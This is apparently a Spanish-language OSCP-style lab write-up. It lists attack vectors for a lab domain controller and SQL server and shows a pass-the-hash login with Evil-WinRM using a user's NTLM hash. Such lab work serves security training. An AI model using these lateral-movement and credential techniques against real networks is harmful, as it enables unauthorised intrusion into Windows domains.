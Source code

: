### 🖥️ 10.10.172.140 (DC01) - Controlador de Dominio

| Puerto | Servicio         | Descripción                                | Posibles Vectores                                                                 |
| ------ | ---------------- | ------------------------------------------ | --------------------------------------------------------------------------------- |
| 53     | DNS (Simple DNS) | Resolución de nombres                      | DNS zone transfer (`dig axfr`), spoofing, tunneling (DNSCat2)                     |
| 88     | Kerberos         | Autenticación AD                           | AS-REP Roasting, Kerberoasting, Pass-the-Ticket, brute-force con usuarios válidos |
| 135    | MSRPC            | RPC / DCOM                                 | Enumeración de servicios, DCOM lateral movement                                   |
| 139    | NetBIOS-SSN      | Compartición antigua                       | Enumeración de usuarios/grupos (con `enum4linux`, `smbclient`)                    |
| 389    | LDAP             | Active Directory                           | Enumeración AD anónima, LDAP injection, ataques sobre objetos                     |
| 445    | SMB              | Compartición de archivos                   | Null sessions, SMB relay, enumeración de shares, Pass-the-Hash                    |
| 464    | Kpasswd          | Cambiar contraseñas Kerberos               | Ataques de diccionario, enumeración de usuarios válidos                           |
| 593    | RPC over HTTP    | DCOM sobre HTTP                            | DCOM + NTLM relay, explotación vía Outlook (si expuesto)                          |
| 636    | LDAPS            | LDAP cifrado                               | Enumeración segura si hay acceso                                                  |
| 3268   | LDAP GC          | Global Catalog para búsqueda en todo el AD | Enumeración de objetos AD                                                         |
| 3269   | LDAPS GC         | Global Catalog sobre SSL                   | Igual que 3268 pero cifrado                                                       |
| 5985   | WinRM            | Administración remota (HTTPAPI)            | Ataques con credenciales válidas (Evil-WinRM, CME, RCE vía PSRemoting)            |



### 🖥️ 10.10.172.142 (MS02) - Servidor SQL / Windows

| Puerto | Servicio      | Descripción               | Posibles Vectores                                                               |
| ------ | ------------- | ------------------------- | ------------------------------------------------------------------------------- |
| 135    | MSRPC         | RPC / DCOM                | Lateral movement, enumeración local                                             |
| 139    | NetBIOS-SSN   | Compartición antigua      | Enumeración de NetBIOS                                                          |
| 445    | SMB           | Compartición de archivos  | Enumeración de shares, `null sessions`, Pass-the-Hash                           |
| 1433   | MS SQL Server | Microsoft SQL Server 2019 | SQLi, autenticación débil (`sa` sin pass), xp\_cmdshell, lateral movement       |
|        |               |                           | Enumerar usuarios con `mssqlclient.py` (Impacket), cracking con `hydra`, `nmap` |
| 5985   | WinRM         | Administración remota     | RCE con credenciales válidas (Evil-WinRM, CME)                                  |

#### Ingresamos con el hash de celia.almeda a .142

```bash
┌──(root㉿kali)-[/home/…/OffSec/Challenges/4_OSCP-A/AD-Machines]
└─# evil-winrm -i 10.10.172.142 -u 'celia.almeda' -H e728ecbadfb02f51ce8eed753f3ff3fd -P 5985
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\celia.almeda\Documents> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ==============================================
oscp\celia.almeda S-1-5-21-2610934713-1581164095-2706428072-1105
```
